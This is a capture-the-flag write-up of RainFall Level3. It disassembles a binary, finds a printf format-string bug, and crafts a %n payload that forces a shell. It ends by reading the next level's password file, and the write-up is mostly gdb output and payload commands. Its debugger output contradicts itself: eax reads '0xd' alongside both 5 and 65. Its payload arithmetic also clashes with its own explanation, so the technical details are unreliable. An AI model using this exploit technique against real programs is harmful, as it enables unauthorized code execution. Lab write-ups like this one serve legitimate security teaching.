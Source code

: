 # Level3

    (gdb) disas main
    Dump of assembler code for function main:
        0x0804851a <+0>:	push   %ebp
        0x0804851b <+1>:	mov    %esp,%ebp
        0x0804851d <+3>:	and    $0xfffffff0,%esp
        0x08048520 <+6>:	call   0x80484a4 <v>
        0x08048525 <+11>:	leave  
        0x08048526 <+12>:	ret    
    End of assembler dump.
    (gdb) disas v
    Dump of assembler code for function v:
        0x080484a4 <+0>:	push   %ebp
        0x080484a5 <+1>:	mov    %esp,%ebp
        0x080484a7 <+3>:	sub    $0x218,%esp
        0x080484ad <+9>:	mov    0x8049860,%eax
        0x080484b2 <+14>:	mov    %eax,0x8(%esp)
        0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
        0x080484be <+26>:	lea    -0x208(%ebp),%eax
        0x080484c4 <+32>:	mov    %eax,(%esp)
        0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
        0x080484cc <+40>:	lea    -0x208(%ebp),%eax
        0x080484d2 <+46>:	mov    %eax,(%esp)
        0x080484d5 <+49>:	call   0x8048390 <printf@plt>
        0x080484da <+54>:	mov    0x804988c,%eax
        0x080484df <+59>:	cmp    $0x40,%eax
        0x080484e2 <+62>:	jne    0x8048518 <v+116>
        0x080484e4 <+64>:	mov    0x8049880,%eax
        0x080484e9 <+69>:	mov    %eax,%edx
        0x080484eb <+71>:	mov    $0x8048600,%eax
        0x080484f0 <+76>:	mov    %edx,0xc(%esp)
        0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
        0x080484fc <+88>:	movl   $0x1,0x4(%esp)
        0x08048504 <+96>:	mov    %eax,(%esp)
        0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
        0x0804850c <+104>:	movl   $0x804860d,(%esp)
        0x08048513 <+111>:	call   0x80483c0 <system@plt>
        0x08048518 <+116>:	leave  
        0x08048519 <+117>:	ret    
    End of assembler dump.

The main simply calls the v function. It simply prints back the characters read from the stdin with printf.

We can also see a check that will run a shell if the value is set to 0x40 (hex) / 64 (dec), but we can't interact with it directly.

However, there is no formatted string during the printf call, the argument is instead passed directly to printf (cf source file). This is a vulerability that we can exploit to change the value being compared above.

With a specific input, we can print the content of the stack : 

    level3@RainFall:~$ ./level3
    AAAA BBBB %x %x %x %x %x %x %x %x %x %x
    AAAA BBBB 200 b7fd1ac0 b7ff37d0 41414141 42424220 78252042 20782520 25207825 78252078 20782520

We see that the 4th %x prints the beginning of our input. A very interesting printf modifier is %n. This modifier won't print anything, but will store the length of the string in the pointed location. And this location must be a pointer to a signed int. Luckily for us, a memory address can be used.

If we go back to the v function :

    [...]
        0x080484da <+54>:	mov    0x804988c,%eax
        0x080484df <+59>:	cmp    $0x40,%eax
    [...]

This code will move the value stored in 0x0804988c to the EAX register, then compare this register with the value 0x40. That means, if we can manually set the value stored in 0x804988c to 0x40, the check will succeed and we'll be able to run the shell.

First of all, let's send the address above to see if our idea works.

    $ python -c 'print "\x8c\x98\x04\x08"+"%4$n"' > payload

The syntax '%4$n' will change the 4th value without having to use the previous ones, since we only want to change this one.
We set a breakpoint right after the printf call, to see if we successfully overflowed the register :

    (gdb) b *0x080484da
    Breakpoint 1 at 0x80484da
    (gdb) run < payload 
    Starting program: /home/user/level3/level3 < payload
    �

    Breakpoint 1, 0x080484da in v ()
    (gdb) i r
    eax            0xd	5
    ecx            0x0	0
    edx            0x0	0
    ebx            0xb7fd0ff4	-1208152076
    esp            0xbffff510	0xbffff510
    ebp            0xbffff728	0xbffff728
    esi            0x0	0
    edi            0x0	0
    eip            0x80484da	0x80484da <v+54>
    eflags         0x200282	[ SF IF ID ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

Our string was 5 characters long (%4$n is a modifier but is included as well, however it won't count for some reason), and we got a value of 5. To have a size of 64, we simply need to add 60 more characters.

    $ python -c 'print "\x8c\x98\x04\x08"+"Y"*60+"%4$n"' > payload

Let's check:

    [...]
       Breakpoint 1, 0x080484da in v ()
    (gdb) i r
    eax            0xd	65
    ecx            0x0	0
    edx            0x0	0
    [...]
    (gdb) c
    Continuing.
    Wait what?!
    [Inferior 1 (process 13240) exited normally]

Now we run it without gdb:

    level3@RainFall:~$ cat payload - | ./level3 
    �YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
    Wait what?!
    cd ../level4
    cat .pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
